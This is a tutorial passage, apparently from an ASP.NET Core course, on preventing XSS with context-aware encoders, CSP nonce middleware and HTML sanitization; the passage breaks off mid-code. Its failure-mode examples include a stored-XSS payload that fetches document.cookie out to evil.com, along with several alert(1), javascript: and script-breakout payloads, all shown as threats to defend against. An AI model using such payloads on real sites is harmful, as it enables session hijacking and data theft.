

---

# 4.214 — XSS Prevention: HTML Encoding, CSP, and the HtmlEncoder Service

---

## PART 0 — Navigation & Context

### Where This Topic Lives

```
ASP.NET Core Mastery
│
├── H. MVC & Controllers            (4.098–4.122)
│   └── 4.104 Razor Pages           ◄── Razor auto-encodes via @; this topic explains why
│
├── L. Validation                   (4.167–4.176)
│   └── 4.173 Input Sanitization    ◄── XSS prevention at the INPUT boundary (model binding)
│
└── P. Security                     (4.208–4.218)
    ├── 4.208 HTTPS Enforcement
    ├── 4.209 CORS
    ├── 4.210 CSRF / Antiforgery
    ├── 4.211 Data Protection API
    ├── 4.212 Data Protection Key Mgmt
    ├── 4.213 Security Headers / CSP  ◄── sets the CSP header; this topic explains policy design
    ├── 4.214 XSS Prevention          ◄── YOU ARE HERE
    │         HTML Encoding + CSP + HtmlEncoder
    ├── 4.215 IDOR Prevention
    ├── 4.216 SQL Injection
    ├── 4.217 Secrets in Production
    └── 4.218 OWASP Top 10
```

### What You Need Before This

- **[[4.104 — Razor Pages]]** — Razor's `@` expression syntax is the primary encoding surface in server-rendered apps; understanding how Razor renders model values is prerequisite to understanding where encoding happens automatically and where it doesn't.
- **[[4.173 — Input Sanitization: Preventing XSS at the Model Binding Layer]]** — This note covers the INPUT side of XSS (stripping or rejecting malicious payloads on the way IN). The current topic covers the OUTPUT side (encoding on the way OUT). Both are required for full XSS defence.
- **[[4.213 — Security Headers Middleware: X-Frame-Options, X-Content-Type, CSP]]** — CSP is delivered as an HTTP response header. Topic 4.213 covers the middleware infrastructure; this topic covers designing the policy itself.
- **[[4.125 — HttpResponse: Writing Status, Headers, Cookies, and Streaming Body]]** — Understanding how response headers are set is prerequisite to understanding where and when the CSP header must be written.

### What This Unlocks After

- **[[4.218 — OWASP Top 10 Applied to ASP.NET Core APIs]]** — XSS is OWASP A03:2021 (Injection); understanding the encoding and CSP layers is prerequisite to discussing the full OWASP picture.
- **[[4.210 — CSRF / Antiforgery]]** — XSS can steal the antiforgery token, bypassing CSRF protection; CSP's `script-src` restriction is a second-layer defence against this attack chain.
- **[[4.215 — IDOR Prevention]]** — After understanding output encoding and CSP, the next security boundary is resource ownership — ensuring users can only access their own resources even when correctly authenticated.

### Why This Matters at Scale

In a multi-tenant SaaS application rendering user-supplied content — product descriptions, comments, display names, order notes — a single unencoded output context allows an attacker to inject a `<script>` tag that executes in the victim's browser under your domain's origin, stealing session cookies, making authenticated API calls on behalf of the victim, and exfiltrating data. Unlike server-side vulnerabilities that require backend access, a stored XSS payload executes for every user who views the infected content with zero ongoing attacker involvement.

---

## PART 1 — The Core Mental Model

### The Fundamental Rule

> **ASP.NET Core's XSS defence has two independent layers: output encoding (transforming `<` into `&lt;` so the browser parses data as text, never as markup) and Content Security Policy (instructing the browser to refuse inline script execution even if encoding fails); both must be present because CSP without encoding still renders injected data in the DOM, and encoding without CSP is defeated by browser parser quirks in non-HTML contexts such as JavaScript string literals and `href` attributes.**

### The Plain-Language Analogy

Think of your web application as a restaurant kitchen writing order tickets. Customer orders (user input) arrive as raw text. The encoding layer is the rule: every time you write customer text onto a board visible to the dining room (the HTML page), you wrap it in quote marks — making it unambiguously data, not an instruction. If a customer orders `"table on fire — call 999"`, the quote marks make it read as commentary, not a command.

CSP is the second rule: even if someone sneaks an unquoted instruction onto the board (a missed encoding), the dining room staff (the browser) has standing orders to ignore any instruction that wasn't pre-approved in the morning briefing (the CSP header sent at page-load). Inline instructions are never acted upon.

The analogy holds for the hard cases: quoting text in a JavaScript string literal (`var name = "{{userName}}"`) requires JavaScript string encoding rules — HTML encoding alone is insufficient, because `</script>` breaks out of the script block and HTML encoding doesn't neutralise it in a JS string context. CSP's `script-src 'none'` blocks execution of the injected script even if encoding was wrong. Both defences together provide defence-in-depth.

### The Taxonomy Diagram

```mermaid
graph TD
    classDef input fill:#7a2d2d,color:#fff,stroke:#4a1a1a
    classDef encode fill:#2d4a7a,color:#fff,stroke:#1a2d4a
    classDef context fill:#2d7a4a,color:#fff,stroke:#1a4a2d
    classDef csp fill:#7a6a2d,color:#fff,stroke:#4a3a1a
    classDef razor fill:#4a2d7a,color:#fff,stroke:#2d1a4a
    classDef api fill:#2d6a7a,color:#fff,stroke:#1a3a4a
    classDef danger fill:#7a1a1a,color:#fff,stroke:#4a0a0a

    A([User-Supplied Data\nenters the system]):::input

    A --> B{Where does it\nleave the system?}:::encode

    B -->|Rendered in Razor view / Razor Pages| C[HTML Output Context]:::context
    B -->|Written into JSON API response| D[JSON Output Context]:::api
    B -->|Written into JS block inside HTML| E[JavaScript String Context]:::context
    B -->|Used in href / src attribute| F[URL Attribute Context]:::context
    B -->|Written into CSS value| G[CSS Context]:::context

    C --> H[Razor @ auto-encodes\nHtmlEncoder.Default\nConvert < > & \" to entities]:::encode
    D --> I[System.Text.Json\nescapes Unicode by default\nJSON ≠ HTML — safe for API responses]:::api
    E --> J[JavaScriptEncoder.Default\nNOT HtmlEncoder\nEncode for JS string literal context]:::encode
    F --> K[UrlEncoder.Default\nor TypedResults.Redirect\nvalidate URL scheme]:::encode
    G --> L[CssEncoder — rare;\nprefer CSS classes over\ndynamic CSS values]:::encode

    H --> M{Is @Html.Raw used?}:::danger
    M -->|Yes ⚠️| N[Raw HTML bypasses encoding\nRequires explicit sanitization\ne.g. HtmlSanitizer library]:::danger
    M -->|No ✅| O[Safe: all @ expressions encoded]:::encode

    H --> P[Content Security Policy\nSecond layer of defence]:::csp
    D --> P
    E --> P

    P --> Q{CSP directives}:::csp
    Q --> R[script-src\nWhitelist trusted origins\nno 'unsafe-inline']:::csp
    Q --> S[default-src 'self'\nFalls back for unspecified types]:::csp
    Q --> T[style-src 'self' 'nonce-...'\nAllow inline styles via nonce]:::csp
    Q --> U[img-src 'self' data:\nAllow images from self + data URIs]:::csp
    Q --> V[connect-src 'self'\nRestrict XHR/fetch targets]:::csp
    Q --> W[frame-ancestors 'none'\nEquivalent to X-Frame-Options DENY]:::csp

    R --> X{Nonce or hash?}:::csp
    X -->|Server-rendered inline scripts| Y[Per-request nonce injected\ninto both header and script tag]:::csp
    X -->|Static inline scripts| Z[SHA-256 hash of script content\nin script-src directive]:::csp
    X -->|No inline scripts| AA[script-src 'self' only\nAllows only external .js files]:::csp
```

---

## PART 2 — Deep Mechanics

### 2.1 — The Three Encoding Services and When Each Applies

XSS is a **context-sensitive** vulnerability. The correct encoder depends entirely on WHERE in the output document the data is being placed. Using the wrong encoder for the context produces either a security hole or garbled output.

ASP.NET Core ships three encoder services under `System.Text.Encodings.Web`, all injectable via DI:

```
System.Text.Encodings.Web
├── HtmlEncoder       — for HTML body text and HTML attribute values
├── JavaScriptEncoder — for values inside JavaScript string literals
└── UrlEncoder        — for values inside URL query strings or path segments
```

**Pipeline position:**

```
──► Request arrives
    ──► Model binding populates controller/page model properties
        ──► Action/handler executes, passes data to view/response
            ──► [ENCODING HAPPENS HERE — at output time, per context]
                ──► Razor template: @ operator → HtmlEncoder
                ──► JSON serializer: System.Text.Json → Unicode escape
                ──► Manual JS block: must explicitly call JavaScriptEncoder
                ──► Manual href construction: must explicitly call UrlEncoder
```

**HtmlEncoder — what it encodes:**

```csharp
// ASP.NET Core internally (approximate):
// When Razor evaluates @Model.UserName, it calls:
//   HtmlEncoder.Default.Encode(value.ToString())
//
// HtmlEncoder.Default encodes:
//   < → &lt;
//   > → &gt;
//   & → &amp;
//   " → &quot;   (in attribute values)
//   ' → &#x27;  (in attribute values — not &apos; for IE compat)
//   / → &#x2F;  (prevents </script> tag injection in HTML context)
//
// Characters outside the Basic Latin range (U+0020–U+007E) are
// also encoded by default — a conservative safe-by-default policy.
// This means Chinese characters, emoji, etc. are percent-encoded.
// To allow non-ASCII characters in output, configure a custom
// TextEncoderSettings with UnicodeRanges.All.
```

**JavaScriptEncoder — the context most engineers get wrong:**

```csharp
// WRONG: Using HtmlEncoder inside a JavaScript string literal
// The data is placed inside <script> tags, not in HTML body.
// HtmlEncoder encodes < as &lt; — which is VALID JavaScript that
// will be re-interpreted by the JS engine as the literal string "&lt;",
// not the HTML entity. But it does NOT encode characters like \n, \r,
// or Unicode escape sequences that break out of JS string context.

// ⚠️ WRONG:
<script>
    var userName = "@HtmlEncoder.Default.Encode(Model.UserName)";
</script>
// If UserName = `"; alert(1); //`
// HtmlEncoder produces: `&quot;; alert(1); //`
// JavaScript sees this as the string `"` followed by code — STILL VULNERABLE
// because & is not a JS escape character; &quot; is THREE characters in JS.

// ✅ CORRECT:
<script>
    var userName = "@JavaScriptEncoder.Default.Encode(Model.UserName)";
</script>
// JavaScriptEncoder encodes:
//   " → \u0022
//   ' → \u0027
//   < → \u003C
//   > → \u003E
//   & → \u0026
//   = → \u003D
//   ` → \u0060  (template literal injection)
//   line terminators → \n \r (prevents line-break injection)
```

**Runtime cost:** `HtmlEncoder.Default.Encode()` is O(n) in the length of the string. For strings with no characters requiring encoding (pure ASCII printable text with no `<>&"'`), it is essentially a string copy — ~1 allocation. For strings with encoding required, the output is longer. On the hot path (rendering a page with 50 encoded values), this is negligible compared to database and network I/O.

**The UnicodeRange configuration for international applications:**

```csharp
// By default, HtmlEncoder encodes ALL non-ASCII characters.
// A Japanese product name becomes &#x30D5;&#x30A1;... — readable in HTML
// but ugly in the raw HTML source and may break email templates.
// ASP.NET Core allows configuring which Unicode ranges to leave unencoded:

// Program.cs
builder.Services.AddSingleton<HtmlEncoder>(
    HtmlEncoder.Create(
        UnicodeRanges.BasicLatin,
        UnicodeRanges.CjkUnifiedIdeographs,
        UnicodeRanges.Hiragana,
        UnicodeRanges.Katakana
    )
);
// WHY: This replaces the default HtmlEncoder singleton in DI.
// Razor uses the DI-registered HtmlEncoder, so ALL Razor views
// in the application benefit from this configuration.
// RISK: Only whitelist ranges you fully understand. Including Cyrillic
// without understanding right-to-left override characters is a mistake.
```

---

### 2.2 — Razor's Automatic Encoding: Where It Protects You and Where It Doesn't

Razor's `@` expression operator calls `HtmlEncoder.Encode()` on any value that implements `ToString()`. This is the single most effective XSS mitigation in server-rendered .NET applications — it's on by default and requires explicit opt-out.

```
// Razor rendering pipeline (approximate):
// 1. .cshtml compiled to C# class by Razor compiler
// 2. At runtime, @ expressions call WriteTo(output, HtmlEncoder, value)
// 3. WriteTo calls HtmlEncoder.Encode(value.ToString())
// 4. Encoded string written to response stream
//
// Source: Microsoft.AspNetCore.Mvc.Razor.RazorPage<TModel>
//         ExecuteAsync → WriteTo → RazorPageBase.WriteTo
```

**What Razor DOES encode (safe by default):**

```html
<!-- Razor view: -->
<p>Welcome, @Model.DisplayName!</p>
<input type="text" value="@Model.UserInput" />
<span data-value="@Model.AttributeValue"></span>

<!-- If Model.DisplayName = "<script>alert(1)</script>" -->
<!-- Rendered HTML: -->
<p>Welcome, &lt;script&gt;alert(1)&lt;/script&gt;!</p>
<input type="text" value="&lt;script&gt;alert(1)&lt;/script&gt;" />
<span data-value="&lt;script&gt;alert(1)&lt;/script&gt;"></span>
<!-- The browser renders the text as-is. No script executes. -->
```

**What Razor does NOT protect (explicit bypass required):**

```html
<!-- 1. @Html.Raw — bypasses encoding entirely -->
<!-- ONLY use when the value has been explicitly sanitized -->
<div>@Html.Raw(Model.UserBio)</div>
<!-- If UserBio contains <script>, it executes. Never use without sanitization. -->

<!-- 2. JavaScript string context inside <script> tags -->
<script>
    // @ encodes for HTML, not for JavaScript string context
    var name = "@Model.UserName";  // ⚠️ WRONG encoding context
</script>

<!-- 3. href / src attributes with user-supplied URLs -->
<a href="@Model.ProfileUrl">View Profile</a>
<!-- HtmlEncoder encodes < > & but NOT the javascript: scheme -->
<!-- If ProfileUrl = "javascript:alert(1)", it executes on click -->

<!-- 4. CSS values -->
<div style="background: @Model.ThemeColor">  <!-- ⚠️ DANGEROUS -->
    <!-- CssEncoder or disallow dynamic CSS entirely -->
</div>
```

**The `javascript:` URL bypass — most dangerous unprotected context:**

```csharp
// ASP.NET Core internally (approximate):
// HtmlEncoder DOES encode the href value — but encoding preserves
// the javascript: scheme because : is NOT an HTML special character.
// "javascript:alert(1)" encoded → "javascript:alert(1)" (unchanged)
// The browser follows the href and executes the JavaScript.
//
// Protection: validate the URL scheme before rendering.
// In Razor, use a TagHelper or a URL validation helper.

// ✅ CORRECT: Validate URL scheme in the model or view
@if (Model.ProfileUrl.StartsWith("https://", StringComparison.OrdinalIgnoreCase) ||
     Model.ProfileUrl.StartsWith("http://", StringComparison.OrdinalIgnoreCase))
{
    <a href="@Model.ProfileUrl">View Profile</a>
}
else
{
    <a href="#">Invalid URL</a>
}
```

**Failure mode diagram — stored XSS via unencoded output:**

```
Attacker → POST /api/profile { "bio": "<script>fetch('https://evil.com?c='+document.cookie)</script>" }
         → Stored in database (bio field)

Victim requests profile page:
→ GET /profile/attacker-id
→ Controller reads bio from DB: "<script>fetch('https://evil.com?c='+document.cookie)</script>"
→ Razor view: <div>@Html.Raw(model.Bio)</div>  ← WRONG: Html.Raw bypasses encoding
→ HTTP response body contains literal <script> tag
→ Browser parses, executes script
→ Victim's session cookie sent to attacker's server
→ Attacker has victim's authenticated session
→ HTTP consequence: victim's next request from attacker's session:
  GET /api/orders HTTP/1.1
  Cookie: .AspNetCore.Session=<stolen_value>
  → 200 OK — attacker can read/modify victim's data
```

**Cost of missed encoding:** One unprotected `Html.Raw()` call on a stored value is sufficient for a stored XSS that persists until the stored value is cleaned. The cost of protection is minimal (encoding is near-zero overhead). The cost of failure is total session compromise for every user who views the content.

---

### 2.3 — Content Security Policy: Browser-Side Execution Firewall

CSP is delivered as an HTTP response header (`Content-Security-Policy`). It instructs the browser's script engine to refuse execution of any script not matching the policy, even if that script is present in the DOM. It is the second-layer defence: if encoding fails (wrong context, missed `Html.Raw`, template engine bug), CSP prevents execution.

```
// HTTP wire format (CSP header on a production SaaS page):
// HTTP/1.1 200 OK
// Content-Type: text/html; charset=utf-8
// Content-Security-Policy:
//   default-src 'self';
//   script-src 'self' 'nonce-r4nd0mN0nc3perRequ3st';
//   style-src 'self' 'nonce-r4nd0mN0nc3perRequ3st' https://fonts.googleapis.com;
//   img-src 'self' data: https://cdn.example.com;
//   font-src 'self' https://fonts.gstatic.com;
//   connect-src 'self' https://api.example.com;
//   frame-ancestors 'none';
//   base-uri 'self';
//   form-action 'self';
//   upgrade-insecure-requests;
```

**Directive breakdown — what each does:**

```
default-src 'self'
  → Fallback for any resource type not explicitly listed.
  → 'self' = same origin (scheme + host + port must match).

script-src 'self' 'nonce-{value}'
  → Scripts may load from same origin OR have a matching nonce attribute.
  → 'unsafe-inline' — NEVER use this. It voids CSP's XSS protection entirely.
  → 'unsafe-eval' — Prevents eval(), Function(), setTimeout(string).
  → WITHOUT 'unsafe-inline': injected <script>alert(1)</script> is blocked by browser.

style-src 'self' 'nonce-{value}' https://fonts.googleapis.com
  → Same pattern for stylesheets. Nonce allows inline <style> blocks.
  → 'unsafe-inline' for styles is less dangerous than for scripts but still discouraged.

img-src 'self' data:
  → Allows same-origin images AND data: URIs (for inline base64 images).
  → Missing this blocks all  tags if default-src is 'none'.

connect-src 'self' https://api.example.com
  → Restricts XHR/fetch/WebSocket endpoints.
  → If injected JS tries to exfiltrate data to https://evil.com, the browser blocks it.
  → This is the second layer that stops data exfiltration even if script executes.

frame-ancestors 'none'
  → Equivalent to X-Frame-Options: DENY. Prevents clickjacking.
  → frame-ancestors supersedes X-Frame-Options in modern browsers.

base-uri 'self'
  → Prevents <base href="https://evil.com"> injection which redirects all relative URLs.

form-action 'self'
  → Prevents forms from submitting to an attacker's domain.
  → Blocks <form action="https://evil.com"> injection.

upgrade-insecure-requests
  → Instructs browser to upgrade http:// to https:// for all sub-resources.
  → Use instead of mixed-content warnings.
```

**ASP.NET Core internally — how middleware sets the CSP header:**

```csharp
// ASP.NET Core does NOT have a built-in CSP middleware in .NET 8.
// Options:
// 1. Response middleware (see Part 3)
// 2. NWebsec (community package: NWebsec.AspNetCore.Middleware)
// 3. NetEscapades.AspNetCore.SecurityHeaders (community, recommended)
// 4. Manual header in Program.cs using app.Use(...)
//
// The header must be set BEFORE any response body bytes are written.
// HttpResponse.Headers is only writable before HasStarted = true.
// Setting it in middleware before next(context) guarantees this.
//
// Pipeline position:
// ──► UseExceptionHandler
//     ──► UseHttpsRedirection
//         ──► [CSP Middleware] ← set header here, before static files or endpoint
//             ──► UseStaticFiles
//                 ──► UseRouting → ... → UseEndpoints
```

**The nonce pattern for inline scripts — production-correct approach:**

```
// The nonce approach:
// 1. Middleware generates a cryptographically random nonce per request
// 2. Nonce is stored in HttpContext.Items["csp-nonce"]
// 3. Middleware sets the CSP header including: script-src 'self' 'nonce-{value}'
// 4. Razor layout retrieves the nonce from HttpContext.Items
// 5. Inline <script nonce="{value}"> tags match the header
// 6. Injected scripts have no nonce → browser blocks them
//
// Attack attempt:
// Attacker injects: <script>alert(1)</script>
// Browser: no nonce attribute → blocked by CSP
// Even if attacker somehow knows the nonce (impossible — per-request, random):
// The attacker cannot inject <script nonce="x"> because
// the nonce is already in the HTML before the injected position
// (the CSP header is sent with the response headers, not DOM-injectable)
```

**Runtime cost:** CSP is a response header — set once per request. The nonce generation (`RandomNumberGenerator.GetBytes(16)` → Base64) is ~100ns and produces ~24 bytes of string. Negligible for any realistic request rate. The browser enforcement overhead is zero on the server — it happens entirely in the browser's script engine.

**The failure mode when CSP is too permissive:**

```
// HTTP response with insecure CSP:
// Content-Security-Policy: script-src 'self' 'unsafe-inline'
//                                              ^^^^^^^^^^^^^^
//                                              This single directive voids XSS protection.
//                                              'unsafe-inline' allows ALL inline scripts,
//                                              including injected ones.
//
// A CSP with 'unsafe-inline' in script-src:
// → The browser allows <script>alert(1)</script> injected by an attacker
// → CSP provides ZERO protection against reflected/stored XSS
// → You have the complexity of CSP with none of the security benefit
//
// CSP with 'unsafe-inline' is worse than no CSP: it creates false confidence.
```

---

### 2.4 — `Html.Raw` and HTML Sanitization: When You Actually Need to Render HTML

There are legitimate cases where users submit rich text (formatted posts, product descriptions, email templates) and the application must render it as HTML, not as escaped text. In these cases, `Html.Raw()` is necessary — but only after the content has been **sanitized** by a dedicated HTML sanitizer library.

```
// The two approaches and their threat models:
//
// 1. Always encode — treats user input as plain text always
//    → Safe for comments, names, addresses, order notes
//    → Wrong for rich text editors (WYSIWYG content)
//    → Displayed HTML tags are shown as literal text to users
//
// 2. Sanitize then render raw — allow a safe subset of HTML
//    → Required for blog posts, product descriptions, knowledge base articles
//    → Must use a library that understands HTML parsing (not regex)
//    → NEVER build your own sanitizer with string.Replace or Regex

// The industry-standard .NET HTML sanitizer:
// Ganss.XSS (HtmlSanitizer) — available on NuGet
// It parses HTML with AngleSharp (a proper HTML5 parser) and
// applies an allowlist of tags and attributes.
//
// Regex-based sanitization is ALWAYS bypassable:
// <scr<script>ipt>  → after stripping <script>: <script>
//   → regex won't catch all event attributes
// &#x3C;script&#x3E;  → HTML entities decoded after regex runs
```

**ASP.NET Core internally — where HtmlEncoder is injected:**

```csharp
// Razor pages and views use the DI-registered HtmlEncoder.
// The Razor base class (RazorPageBase) has:
//   protected HtmlEncoder HtmlEncoder { get; }
// It is constructor-injected by the Razor runtime.
//
// For custom TagHelpers, HtmlEncoder is constructor-injectable:
public class SafeHtmlTagHelper : TagHelper
{
    private readonly HtmlEncoder _encoder;

    // Constructor injection — DI provides the configured encoder
    public SafeHtmlTagHelper(HtmlEncoder encoder)
    {
        _encoder = encoder;
    }
    // ...
}
//
// For manual use outside Razor (e.g., in a service that builds
// HTML email bodies), inject HtmlEncoder from DI.
// Do NOT use HtmlEncoder.Default directly in DI-aware code —
// it bypasses any custom encoder configuration.
```

---

### 2.5 — JSON API Responses and XSS: Why `application/json` Alone Is Insufficient

JSON API responses might seem immune to XSS — there's no HTML rendering. But there are three scenarios where a JSON API can contribute to XSS:

**Scenario 1: JSON rendered inside an HTML page via `<script type="application/json">`**

```html
<!-- Server-side data island pattern (used by Next.js, Blazor, etc.) -->
<script id="app-data" type="application/json">
    @Html.Raw(JsonSerializer.Serialize(Model.InitialData))
</script>
<script>
    const data = JSON.parse(document.getElementById('app-data').textContent);
</script>
```

```
// The threat: if InitialData.SomeField contains </script>, 
// the browser parser sees the </script> as closing the outer script tag,
// even inside a string literal.
//
// Input: { "bio": "</script><script>alert(1)</script>" }
// JSON.Serialize output: {"bio":"</script><script>alert(1)</script>"}
// HTML rendered:
// <script type="application/json">{"bio":"</script>
//    <script>alert(1)</script>
// </script>
//
// The first </script> closes the JSON script block at the wrong position.
// The second <script>alert(1)</script> executes.
//
// Fix: System.Text.Json's default options escape < > & as \u003C \u003E \u0026
// — this is ON BY DEFAULT and prevents this specific attack.
// VERIFY your JsonSerializerOptions don't disable this escaping.
```

**Scenario 2: API response reflected directly into HTML by a downstream system**

```
// Your API returns: { "name": "<script>alert(1)</script>" }
// A downstream web app does: document.innerHTML = response.name
// The web app has an XSS vulnerability — but it came from your API data.
// Your API should encode HTML special characters even in JSON responses
// if the data will ever be rendered in HTML context by consumers.
// This is a defence-in-depth argument, not a pure JSON-API concern.
```

**Scenario 3: JSONP (legacy) — deserves mention only to say "never use it"**

```
// JSONP wraps JSON in a callback function call:
// GET /api/data?callback=alert
// Response: alert({"name":"attacker_controlled"});
// This is XSS by design. JSONP is obsolete — CORS replaces it.
// If your codebase has JSONP endpoints, remove them immediately.
```

**HTTP wire format — `System.Text.Json` default escaping:**

```http
// Request:
// POST /api/v1/products HTTP/1.1
// Content-Type: application/json
// { "name": "<script>alert(1)</script>" }

// Response (System.Text.Json default options — safe):
// HTTP/1.1 201 Created
// Content-Type: application/json
// {
//   "name": "\u003Cscript\u003Ealert(1)\u003C/script\u003E"
// }
//
// The \u003C and \u003E are Unicode escapes for < and >.
// When a browser renders this JSON in an HTML context, the
// Unicode escapes prevent the browser HTML parser from
// treating the content as markup.
//
// WARNING: If you configure JsonSerializerOptions with
// Encoder = JavaScriptEncoder.UnsafeRelaxedJsonEscaping,
// the < > & characters are NOT escaped in JSON output.
// This is a performance optimisation that trades safety for speed.
// NEVER use UnsafeRelaxedJsonEscaping on data that will be
// embedded in HTML pages or rendered by untrusted consumers.
```

---

## PART 3 — Production Code Patterns

### Pattern 1: The CSP Nonce Middleware — Per-Request Random Nonce for Inline Scripts

**Domain scenario:** E-commerce storefront. The checkout page has inline `<script>` blocks for Stripe.js integration and Google Analytics. These must be allowed by CSP without using `'unsafe-inline'`.

```csharp
// ✅ CORRECT: Per-request nonce middleware for CSP
// CspMiddleware.cs

public class CspNonceMiddleware
{
    private readonly RequestDelegate _next;

    // WHY: Middleware is convention-based (Singleton activation).
    // The nonce is stored in HttpContext.Items — request-scoped, not a field.
    public CspNonceMiddleware(RequestDelegate next) => _next = next;

    public async Task InvokeAsync(HttpContext context)
    {
        // WHY: Use RandomNumberGenerator, not Random or Guid.
        // Random is predictable; Guid entropy is 122 bits but fixed format.
        // CSPRNG produces 128 bits of entropy — attacker cannot predict or brute-force.
        var nonceBytes = new byte[16];
        RandomNumberGenerator.Fill(nonceBytes);
        var nonce = Convert.ToBase64String(nonceBytes);

        // Store for Razor views to retrieve
        context.Items["csp-nonce"] = nonce;

        // WHY: Set the header BEFORE calling next().
        // After next() returns, the response may have already started.
        // Some middleware (e.g. compression) buffers responses, but
        // we cannot rely on this — always set headers before the pipeline proceeds.
        context.Response.Headers["Content-Security-Policy"] =
            $"default-src 'self'; " +
            $"script-src 'self' 'nonce-{nonce}' https://js.stripe.com; " +
            $"style-src 'self' 'nonce-{nonce}' https://fonts.googleapis.com; " +
            $"img-src 'self' data: https://cdn.shopexample.com; " +
            $"connect-src 'self' https://api.shopexample.com https://api.stripe.com; " +
            $"font-src 'self' https://fonts.gstatic.com; " +
            $"frame-src https://js.stripe.com; " +         // Stripe iframe
            $"frame-ancestors 'none'; " +                  // no clickjacking
            $"base-uri 'self'; " +
            $"form-action 'self' https://stripe.com; " +
            $"upgrade-insecure-requests;";

        await _next(context);
    }
}

// Program.cs
app.UseMiddleware<CspNonceMiddleware>();  // before UseStaticFiles, UseRouting

// _Layout.cshtml — retrieving the nonce in Razor
@{
    var nonce = Context.Items["csp-nonce"] as string ?? string.Empty;
}
<!DOCTYPE html>
<html>
<head>
    <script nonce="@nonce" src="https://js.stripe.com/v3/"></script>
    <style nonce="@nonce">
        /* inline styles here are allowed by the nonce */
        .checkout-form { ... }
    </style>
</head>
<body>
@RenderBody()
<script nonce="@nonce">
    // This inline script is allowed because its nonce matches the CSP header
    const stripe = Stripe('@Configuration["Stripe:PublicKey"]');
</script>
</body>
</html>

// HTTP wire effect:
// GET /checkout HTTP/1.1
//
// HTTP/1.1 200 OK
// Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-dGVzdA==' https://js.stripe.com; ...
// Content-Type: text/html
//
// Attack attempt: attacker injected <script>alert(1)</script> into product name
// → rendered as <script>alert(1)</script> (no nonce attribute)
// → browser CSP engine: no nonce → BLOCKED
// → Browser console: Refused to execute inline script because it violates
//   the following Content Security Policy directive: "script-src 'self' 'nonce-...'"
```

---

### Pattern 2: The `HtmlEncoder` Service in a User Content Display Component

**Domain scenario:** Healthcare patient portal. Patient notes from clinicians are stored as plain text and displayed in the patient's dashboard. A TagHelper sanitizes and encodes the output, ensuring no script can execute even if a clinician's note was compromised.

```csharp
// ✅ CORRECT: TagHelper that explicitly encodes for the output context
// SafeTextTagHelper.cs

using System.Text.Encodings.Web;
using Microsoft.AspNetCore.Mvc.Rendering;
using Microsoft.AspNetCore.Razor.TagHelpers;

[HtmlTargetElement("safe-text", Attributes = "value")]
public class SafeTextTagHelper : TagHelper
{
    private readonly HtmlEncoder _htmlEncoder;

    // WHY: Constructor injection via DI ensures we use the application-configured
    // encoder (which may have custom Unicode ranges). NOT HtmlEncoder.Default
    // which bypasses DI configuration.
    public SafeTextTagHelper(HtmlEncoder htmlEncoder)
    {
        _htmlEncoder = htmlEncoder;
    }

    public string? Value { get; set; }

    // WHY: Order = int.MinValue ensures this TagHelper runs BEFORE any
    // child content is processed. For a leaf element that replaces content,
    // this is the correct pattern.
    public override int Order => int.MinValue;

    public override void Process(TagHelperContext context, TagHelperOutput output)
    {
        output.TagName = "span";  // renders as <span>encoded text</span>
        output.TagMode = TagMode.StartTagAndEndTag;

        if (Value is not null)
        {
            // WHY: We call HtmlEncoder explicitly rather than just assigning
            // to output.Content.SetContent(). SetContent() does NOT encode —
            // it treats the string as pre-encoded HTML.
            // SetHtmlContent() also does NOT encode — it's for pre-built HTML.
            // The correct method is SetContent() which DOES encode... but to
            // be explicit and readable, we encode manually here.
            var encoded = _htmlEncoder.Encode(Value);
            output.Content.SetHtmlContent(encoded);
        }
        else
        {
            output.Content.SetHtmlContent("&mdash;");  // em-dash for null
        }
    }
}

// _ViewImports.cshtml
// @addTagHelper *, PatientPortal.Web

// Dashboard.cshtml
@model PatientDashboardModel
<div class="clinical-notes">
    @foreach (var note in Model.ClinicalNotes)
    {
        <div class="note-card">
            <safe-text value="@note.Author" />    <!-- TagHelper encodes -->
            <safe-text value="@note.Content" />   <!-- TagHelper encodes -->
        </div>
    }
</div>

// HTTP wire effect (attacker injected note):
// note.Content = "<script>fetch('https://evil.com?data='+document.cookie)</script>"
//
// Rendered HTML:
// <span>&lt;script&gt;fetch(&#x27;https://evil.com?data=&#x27;+document.cookie)&lt;/script&gt;</span>
// Browser displays the text as-is. No script executes. Cookie is safe.
```

---

### Pattern 3: The `Html.Raw` Sanitization Gate — Rich Text from a WYSIWYG Editor

**Domain scenario:** Knowledge base application. Support agents write articles using a rich text editor (Quill.js). The stored HTML must be rendered as HTML (not as escaped text) but must not contain executable scripts, form hijacks, or external resource loads.

```csharp
// ⚠️ WRONG: Raw HTML rendered without sanitization
@Html.Raw(Model.ArticleBody)
// Any <script> tag, onerror attribute, or javascript: href in the stored HTML
// executes when a user views the article.

// ✅ CORRECT: Sanitize with an allowlist before rendering raw HTML
// ArticleSanitizer.cs

using Ganss.Xss;  // NuGet: HtmlSanitizer

public class ArticleSanitizer
{
